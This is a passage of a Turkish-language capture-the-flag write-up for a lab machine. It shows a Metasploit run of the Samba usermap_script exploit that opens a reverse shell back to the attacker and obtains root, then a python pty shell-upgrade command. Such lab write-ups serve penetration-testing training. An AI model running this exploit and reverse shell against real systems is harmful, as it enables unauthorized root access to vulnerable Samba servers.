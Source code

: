 ```


### With Metasploit

Bunu Metasploit ile de yapabilirim

```
msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf5 exploit(multi/samba/usermap_script) > set lhost tun0
lhost => 10.10.16.9
msf5 exploit(multi/samba/usermap_script) > set lport 443
lport => 443
```


```
msf5 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP double handler on 10.10.14.24:443 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo zchdJVWjFG8sP3T3;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "zchdJVWjFG8sP3T3\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.16.9:443 -> 10.10.10.3:37959) at 2019-02-28 08:52:31 -0500

‍id
uid=0(root) gid=0(root)
```


### Shell as Root
Bu yöntemlerden herhangi biriyle bir shell ile, daha güzel bir shell elde etmek için python ve pty kullanabilirim:

```
‍python -c 'import pty; pty.spawn("bash")' 
```

çalışmadı python yüklü olmayabilir !!

```
which python
/usr/bin/python
```

fakat bu şekilde çalıştırdığımda çalıştı . 

```
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
```

Sonra da bayrakları al:

![Pasted image 20250205205904.png](/img/user/Pasted%20image%2020250205205904.png)

```